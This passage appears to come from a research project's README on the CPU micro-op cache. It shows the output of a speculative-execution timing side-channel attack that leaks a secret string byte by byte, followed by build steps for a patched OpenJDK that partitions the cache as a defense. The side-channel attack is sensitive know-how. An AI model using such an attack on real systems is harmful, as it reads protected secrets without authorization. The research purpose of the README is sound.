 ```
Reading at malicious_x = 0xffffffffffffdfec... Success: 0x68='h' score=15    (second best: 0x0D score=5)
Reading at malicious_x = 0xffffffffffffdfed... Success: 0x20=' ' score=13    (second best: 0x0D score=4)
Reading at malicious_x = 0xffffffffffffdfee... Success: 0x4F='O' score=11    (second best: 0x0D score=3)
Reading at malicious_x = 0xffffffffffffdfef... Success: 0x73='s' score=15    (second best: 0x0D score=5)
Reading at malicious_x = 0xffffffffffffdff0... Success: 0x73='s' score=9    (second best: 0x13 score=2)
Reading at malicious_x = 0xffffffffffffdff1... Success: 0x69='i' score=9    (second best: 0x32 score=2)
Reading at malicious_x = 0xffffffffffffdff2... Success: 0x66='f' score=13    (second best: 0x0D score=4)
Reading at malicious_x = 0xffffffffffffdff3... Success: 0x72='r' score=11    (second best: 0x07 score=3)
Reading at malicious_x = 0xffffffffffffdff4... Success: 0x61='a' score=11    (second best: 0x0B score=3)
Reading at malicious_x = 0xffffffffffffdff5... Success: 0x67='g' score=15    (second best: 0x0E score=5)
Reading at malicious_x = 0xffffffffffffdff6... Success: 0x65='e' score=25    (second best: 0x0D score=10)
Reading at malicious_x = 0xffffffffffffdff7... Success: 0x2E='.' score=9    (second best: 0xAE score=2)
```

As the results show, we successfully read unauthorized secret data by using the uop cache as a new timing side-channel.


## Usecase 2 - Uop Cache Aware Logical Partitioning

The second usecase is the _logical uop cache partitioning_.
To show the impcats of the proposal, we modify Java Virtual Machine (JVM) to support logically partitioning the uop cache based on the mapping policy extracted by using Diags.


### How to build
First, you should prepare openJDK build environment.
Please follow the instructions below.

 * Download openJDK 8 source code
`git clone https://github.com/openjdk/jdk8u`
 * Download openJDK 7 at [here](http://jdk.java.net/java-se-ri/7)
 * Install various libraries required to build JDK `sudo apt-get install build-essential autoconf make libfreetype6-dev libcups2-dev libx11-dev libxext-dev libxrender-dev libxrandr-dev libxtst-dev libxt-dev libasound2-dev libffi-dev libfontconfig1-dev`

Then, apply our diff patch to openJDK8 you downloaded.
```
$cd {jdk8_source_repository}
$git appy {REPO_HOME}/usecases/logical_partitioning/source.patch
$bash configure --with-boot-jdk={jdk7_directory_path} --with-extra-cflags=-Wno-error --with-extra-cxxflags=-Wno-error --enable-debug-symbols --with-debug-level=fastdebug
$make all
```
Now you can get the compiled JAVA `build/linux-x86_64-normal-server-fastdebug/jdk/bin/java`.
